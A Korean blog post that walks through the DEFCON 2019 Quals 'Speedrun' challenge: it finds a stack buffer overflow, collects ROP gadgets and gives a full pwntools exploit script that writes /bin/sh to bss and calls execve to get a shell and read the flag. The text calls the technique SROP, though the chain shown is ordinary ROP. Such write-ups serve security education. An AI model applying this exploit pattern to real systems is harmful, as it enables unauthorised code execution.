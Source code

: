 ﻿---
layout: post
title: "[DEFCON 2019 Quals] Speedrun"
comments : true
excerpt_separator: <!--more-->
tags :
  - sang-gamja
  - Defcon CTF
  - const4ntine
---

2019년 데프콘 CTF 스피드런 문제를 리뷰 해보도록 하겠습니다.
<!--more-->
우선 우리는 문제를 실행시켜 보겠습니다.
![]({{ site.baseurl }}/images/gamja/speed1/1.JPG)

이렇게 실행되어지는 문제이고 이것을 분석하기 위하여 IDA를 사용하여 열어보면 굉장히 큰 바이너리로 이루어 진 것을 알 수 있습니다.
![]({{ site.baseurl }}/images/gamja/speed1/2.JPG)
![]({{ site.baseurl }}/images/gamja/speed1/3.JPG)
하지만 우리는 실행시켰을 때 알아낸 문자열을 통하여 실행 부분을 찾을수 있습니다.
![]({{ site.baseurl }}/images/gamja/speed1/4.JPG)
이렇게 찾게되고 그것의 main함수 까지 알아 냅니다.
![]({{ site.baseurl }}/images/gamja/speed1/3.JPG)
이때 우리는 buf의 크기보다 더 많은 양을 넣을 수 있는 read 함수를 찾을 수 있습니다.
따라서 우리는 overflow가 된다는 것을 알 수 있습니다.
우선 우리는 보호기법을 체크해줍니다.
![]({{ site.baseurl }}/images/gamja/speed1/5.JPG)
그러면 PIE가 걸려있지 않기 때문에 IDA에서 본 주소와 동일하게 사용가능한 것을 알 수 있습니다.

![]({{ site.baseurl }}/images/gamja/speed1/6.JPG)
그렇기에 우리는 read 양만큼의 A 문자를 넣어보면 무리 없이 들어간 다는 것을 알 수 있습니다.
따라서 우리는 SROP를 통한 익스 플로잇 코드를 작성해야 한다는 것을 알 수 있습니다.

![]({{ site.baseurl }}/images/gamja/speed1/7.JPG)
그렇기에 우리는 rop 명령어를 통한 가젯들을 수집합니다. (pop rdi, pop rsi, pop rdx, pop rax, syscall)
그리고 우리는 처음 /bin/sh 문자열을 넣을 위치를 정하여야 합니다.
![]({{ site.baseurl }}/images/gamja/speed1/8.JPG)
따라서 elfheader 명령어를 통한 bss 영역의 주소를 알아낼 수 있습니다.
그 후 우리는 bss영역에 read함수를 이용하여 /bin/sh 문자열을 대입하고 execve 함수를 통하여 /bin/sh 를 실행하는 코드를 작성합니다.
```
from pwn import *

p = remote("speedrun-001.quals2019.oooverflow.io", 31337)

def dd(payload):
	p.recvuntil('Any last words?')
	p.sendline(payload)

syscall = 0x474e65
pop_rax = 0x415664
pop_rdi = 0x400686
pop_rsi = 0x4101f3
pop_rdx = 0x4498b5
main_addr = 0x400BC1

bss = 0x006bc000-0x100


payload = 'A'*0x400
payload += p64(bss - 0x100)
payload += p64(pop_rdi) + p64(0)
payload += p64(pop_rsi) + p64(bss)
payload += p64(pop_rdx) + p64(8)
payload += p64(pop_rax) + p64(0)
payload += p64(syscall)
payload += p64(main_addr)

dd(payload)

p.send('/bin/sh\x00')


payload = 'A' * 0x400
payload += p64(0xdeadbeef)
payload += p64(pop_rdi) + p64(bss)
payload += p64(pop_rsi)+ p64(0)
payload += p64(pop_rdx) + p64(0)
payload += p64(pop_rax) + p64(59)
payload += p64(syscall)
payload += p64(main_addr)

dd(payload)
p.recvuntil("A"*0x400)
p.sendline("/bin/sh;")
p.sendline("cat flag")

p.interactive()

```

![]({{ site.baseurl }}/images/gamja/speed1/9.JPG)
작성한 코드를 실행시킨다면 우리는 flag를 획득할 수 있습니다.


